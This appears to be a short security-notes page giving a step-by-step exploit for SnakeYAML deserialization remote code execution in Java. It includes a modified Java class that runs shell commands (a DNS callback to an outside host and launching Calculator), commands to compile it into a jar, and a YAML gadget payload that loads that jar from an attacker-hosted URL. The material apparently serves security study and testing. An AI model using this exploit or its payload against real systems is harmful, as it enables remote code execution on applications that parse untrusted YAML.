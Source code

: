 # Vulnerabilities in programming languages

# Java
## SnakeYAML
SnakeYAML deserialization fails and allows for RCE.
### Steps
- Clone the following repo: [https://github.com/artsploit/yaml-payload](https://github.com/artsploit/yaml-payload)     
- Edit the following part of `yaml-payload/src/artsploit/AwesomeScriptEngineFactory.java`
    ```java
    public AwesomeScriptEngineFactory() {
        try {
            Runtime.getRuntime().exec("dig scriptengine.x.artsploit.com");
            Runtime.getRuntime().exec("/Applications/Calculator.app/Contents/MacOS/Calculator");
        } catch (IOException e) {
            e.printStackTrace();
        }
    }
    ```
- Compile and put everything into a `.jar` file
    ```bash
    javac src/artsploit/AwesomeScriptEngineFactory.java
    jar -cvf yaml-payload.jar -C src/ .
    ```
- Make a server to host the jar file
- Enter the following yaml code into the parse
    ```yaml
    !!javax.script.ScriptEngineManager [
    !!java.net.URLClassLoader [[
        !!java.net.URL ["URL TO JAR FILE"]
    ]]
    ]
    ```

### Troubleshooting
- If the java version of the vulnerable yaml parser doesn't match your java version then recompile:
    ```bash
    javac --release <version> src/artsploit/AwesomeScriptEngineFactory.java
    jar -cvf yaml-payload.jar -C src/ .
    ```

### References
- [https://github.com/mbechler/marshalsec](https://github.com/mbechler/marshalsec)
- [https://github.com/artsploit/yaml-payload](https://github.com/artsploit/yaml-payload)
- [https://www.mankier.com/1/javac](https://www.mankier.com/1/javac)
- [https://stackoverflow.com/questions/47457105/class-has-been-compiled-by-a-more-recent-version-of-the-java-environment](https://stackoverflow.com/questions/47457105/class-has-been-compiled-by-a-more-recent-version-of-the-java-environment)